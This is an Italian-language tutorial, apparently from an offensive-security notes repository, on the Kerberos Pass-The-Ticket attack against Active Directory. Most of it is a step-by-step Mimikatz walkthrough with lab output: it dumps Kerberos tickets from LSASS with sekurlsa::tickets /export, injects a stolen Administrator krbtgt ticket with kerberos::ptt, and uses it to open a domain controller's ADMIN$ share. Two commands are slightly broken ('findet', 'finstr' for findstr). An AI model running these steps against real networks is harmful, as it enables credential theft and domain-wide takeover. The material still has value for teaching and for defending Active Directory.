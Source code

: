 # Pass-The-Ticket (PTT) Attack

Un attacco di tipo **Pass-The-Ticket** consiste nel rubare, ad un utente correttamente autenticato all'interno del sistema, il TGT (Ticket Granting Ticket) di Kerberos così da ottenere l'accesso ad un altro computer.

Nei sistemi Active Directory, il TGT fornisce una prova sull'autenticità dell'utente che sta effettuando una determinata richiesta.\
I Domain Controller ricevono la richiesta di accesso ad una risorsa e per permetterlo validano il TGT dell'utente richiedente.

Tramite tool come **Mimikatz** o **Rubeus**, un attaccante può ricavare questi ticket in quanto sono salvati all'interno del LSASS (Local Security Authority Subsystem) ed inviarli al TGS di Kerberos (Ticket Granting Service) per ottenere l'accesso a qualsiasi altra risorsa all'interno della rete.

**Note:** Questa tecnica è utilizzabile solo dopo che si è riusciti ad autenticarsi all'interno di una macchina tramite un precedente furto di credenziali valide (es. Phishing / Social Engineering).

## Pass-The-Ticket w\Mimikatz

<p align="center">
  <img src="https://ifconfig.dk/wp-content/uploads/2015/06/logo.png" />
</p>


I comandi che seguono effettueranno l'esportazione dei ticket di Kerberos all'interno della directory in cui `mimikatz.exe` è stato eseguito.\
I file che ci interessano sono quelli con estensione `.kirbi`.\
Poniamo molta attenzione ai ticket `krbtgt` in quanto permettono l'accesso a numerosi servizi.\
Un account KRBTGT è un account di Active Directory predefinito utilizzato dal KDC (Key Distribuition Center). Viene creato automaticamente durante la creazione di un nuovo dominio Active Directory.

**Note:** I ticket KRBTGT sono in cache all'interno della macchina solo se l'amministratore ha effettuato l'accesso precedentemente.

Andiamo ad eseguire `mimikatz`
```
> mimikatz.exe
```

Controlliamo se abbiamo i permessi necessari per poter continuare\
```
# privilege::debug
```
Se l'output è `Privilege '20' OK` allora possiamo proseguire.

Andiamo ad estrarre le password dal LSASS della macchina
```
# sekurlsa::tickets /export
```

Usciamo e verifichiamo di aver correttamente estratto i ticket
```
# exit
> dir | findet "Administrator" | findstr "krbtgt"

[...]
[0;1d0bb]-2-0-40e10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi
[0;1d0bb]-2-1-60a10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi
[0;47d2a]-2-0-40e10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi
[...]
```

Possiamo ora riutilizzarne uno per impersonificare il Domain Admin

```
> mimikatz.exe
# privilege::debug
# kerberos::ptt [0;1d0bb]-2-0-40e10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi

[...]
File: '[0;1d0bb]-2-0-40e10000-Administrator@krbtgt-HACKED.TESTLAB.kirbi': OK
[...]

# exit
```

Verifichiamo se all'interno della cache è presente il ticket
```
> klist | finstr "Cached"

Cached Tickets: (1)
```

Andiamo ora a verificare l'hostname del Domain Controller
```
> nltest /dc:HACKED.TESTLAB

[...]
win2021dc.HACKED.TESTLAB [PDC] [DS] Default-Site: Default-Site-Title
[...]
```

Digitiamo il seguente comando
```
> dir \\win2021dc.hacked.testlab\admin$
```

E abbiamo così accesso alla directory `ADMIN$`.
